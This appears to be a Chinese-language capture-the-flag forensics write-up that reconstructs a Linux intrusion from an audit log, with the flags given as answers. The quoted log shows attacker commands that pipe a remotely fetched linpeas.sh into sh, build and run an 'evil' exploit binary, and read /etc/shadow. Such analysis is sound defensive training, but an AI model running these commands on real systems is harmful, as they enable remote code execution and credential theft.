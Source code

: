 :::spoiler Flag
Flag: `btlo`
:::
## ==Q2==
> What attack type was used to gain initial access?
### Recon
呈上題

:::spoiler Flag
Flag: `bruteforce`
:::
## ==Q3==
> What is the attacker's IP address?
### Recon
呈上題

:::spoiler Flag
Flag: `192.168.4.155`
:::
## ==Q4==
> What tool was used to perform system enumeration?
### Recon
根據[^wp1]的說明，此時要使用到`--tty`的參數列出登入進來之後下甚麼command
```bash
sudo aureport -if audit.log --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 10/05/21 08:23:16 468403 1001 pts1 49 sh "hostname",<nl>
2. 10/05/21 08:23:21 468408 1001 pts1 49 sh "whoami",<nl>
3. 10/05/21 08:23:26 468414 1001 pts1 49 sh "ls",<nl>
4. 10/05/21 08:23:27 468419 1001 pts1 49 sh "sudo -l",<nl>
5. 10/05/21 08:23:34 468447 1001 pts1 49 sh <nl>
6. 10/05/21 08:23:37 468450 1001 pts1 49 sh "wget -O - http://192.168.4.155:8000/linpeas.sh | sh",<nl>
7. 10/05/21 08:26:21 480914 1001 pts1 49 sh "lsb_release -a",<nl>
8. 10/05/21 08:26:31 480921 1001 pts1 49 sh "sudo -V",<nl>
9. 10/05/21 08:26:36 480934 1001 pts1 49 sh "wget http://192.168.4.155:8000/evil.tar.gz",<nl>
10. 10/05/21 08:26:45 480944 1001 pts1 49 sh "ls",<nl>
11. 10/05/21 08:26:50 480947 1001 pts1 49 sh "tar zxvf evil.tar.gz",<nl>
12. 10/05/21 08:26:59 480982 1001 pts1 49 sh "cd evil",<nl>
13. 10/05/21 08:27:03 480984 1001 pts1 49 sh "ls",<nl>
14. 10/05/21 08:27:06 480987 1001 pts1 49 sh "make",<nl>
15. 10/05/21 08:27:10 481020 1001 pts1 49 sh "./evil 0",<nl>
16. 10/05/21 08:27:17 481039 1001 pts1 49 sh "whoami",<nl>
17. 10/05/21 08:27:21 481050 1001 pts1 49 sh "rm -rf /home/btlo/evil",<nl>
18. 10/05/21 08:27:39 481059 1001 pts1 49 sh "rm  /home/btlo/evil.tar.gz",<nl>
19. 10/05/21 08:27:45 481062 1001 pts1 49 sh "cat /etc/shadow",<nl>
20. 10/05/21 08:27:50 481064 1001 pts1 49 sh "exit",<nl>
21. 10/05/21 08:27:53 481065 1001 pts1 49 sh "exit",<nl>
```
從以上結果得知，攻擊者進來以後先recon一下(hostname / whoami / ls / sudo -l(查看目前的身分可以下甚麼command))，最重要的是他wget了一個linpeas.sh，這是一個專用於linux based的提權工具，詳細的資訊可以看[Linux權限提升研究: 自動化信息收集](https://cloud.tencent.com/developer/article/1841447)，甚至後面下載了一個evil，應該是自己寫的或是自己蒐集的武器庫，提權完了之後就是要查看最重要的地方，也就是==/etc/shadow==，就是真實存密碼的地方
